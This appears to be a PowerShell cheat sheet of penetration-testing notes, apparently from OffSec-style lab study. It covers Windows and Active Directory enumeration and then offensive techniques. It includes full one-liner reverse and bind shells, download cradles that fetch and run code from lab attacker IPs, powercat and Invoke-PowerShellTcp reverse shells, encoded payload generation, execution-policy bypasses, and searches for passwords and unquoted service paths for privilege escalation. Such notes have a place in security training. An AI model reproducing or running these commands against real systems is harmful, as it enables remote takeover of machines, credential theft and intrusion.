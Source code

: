 ### Get installed software
Get-WmiObject -Class Win32_Product

### Get Antivirus Product Status
Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct

### In table format, display processes and include the CommandLine, ProcessName, and SessionID. Filter to show SessionID of 2 and ProcessName of "svchost.exe" only. Sort the results alphabetically by CommandLine.
gps | Select-Object -Property ProcessName,SessionID | Sort-Object -Property ProcessName -Descending | Where-Object SessionID -EQ 2 | Where-Object ProcessName -EQ svchost.exe | Format-Table

### Services with unquoted executable paths that start automatically can lead to escalating privileges. How many services fit that description on this machine?
Get-WmiObject -class Win32_Service -Property StartMode,PathName | Where {$_.StartMode -EQ "Auto" -and $_.PathName -notlike '"*'} | select StartMode,PathName

### Get current logged in user
query user /server:$server
Get-WmiObject -Class win32_computersystem
(Get-CimInstance -ClassName Win32_ComputerSystem).Username
(Get-WMIObject -ClassName Win32_ComputerSystem).Username


### Get file under path using hash value
Get-FileHash -Path C:\Windows\System32\* -Algorithm MD5 | findstr /i "6CECC33A62E935F5E8665B9597479A36"

### Find string in txt files under path by "password" string
Select-String -Path C:\Windows\System32\*.txt -Pattern 'password'

### Powershell to get shell from 192.168.79.79 to 192.168.79.80(username:offensive)
192.168.79.79:Enable-PSRemoting,Set-Item wsman:\localhost\client\trustedhosts 192.168.79.80,Enter-PSSession -ComputerName 192.168.79.80 -Credential offensive

### Domain
###### Domain Users and Groups
Get-ADUser Jim  
Get-ADUSer -filter *  
Get-ADUser Morgan -Properties *(get full info of aduser)  
Get-ADComputer APPSRV01  
Get-ADGroup -filter 'GroupScope -eq Global/Domain Local/Universal'  
Get-ADGroup -filter * -properties * |select SAMAccountName, Description|Export-Csv adGroupList.csv  

###### Enumerate Domain group member
Get-ADGroupMember ThirdGroup -recursive 

### Get windows firewall rules
Get-NetFirewallRule

### Retrieve domain user full info
Get-ADUser -Identity Susan -Properties "*"

### Retrieve domain computer full info
Get-AdComputer -Identity APPSRV01 -Properties *

### display all loaded functions
dir function:

### display one specific module location
dir (Get-Module -ListAvailable FlagModule).ModuleBase

### download file
>powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
powershell -nop -Exec Bypass -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"  

### reverse shell
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
sudo nc -lnvp 443
```
```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
```
```
download Invoke-PowerShellTcp.ps1
Invoke-PowerShellTcp -Reverse -IPAddress 10.9.1.100 -Port 4443
```
### bind shell
```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
nc -nv 10.11.0.22 443
```
### load powercat, bindshell, reverse shell, encrypted payloads
>Generally speaking, Windows PowerShell uses Unicode UTF-16LE encoding by default. However, the default encoding used by cmdlets in Windows PowerShell is inconsistent.
```
powercat.ps1
  -ge             Generate Encoded Payload. Does the same as -g, but returns a string which
                  can be executed in this way: powershell -E <encoded string>
```
```
Import-Module .\powercat.ps1
powercat -l -p 443 -e cmd.exe
powercat -c 10.11.0.4 -p 443 -e cmd.exe
powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
powershell.exe -E en_payload
```
### Allow unsigned scripts execute
```
powershell -ExecutionPolicy Bypass -File admin_login.ps1
```
# ps1 cannot be loaded because running scripts is disabled on this system
```
Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -scope currentuser
Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -scope LocalMachine 
```
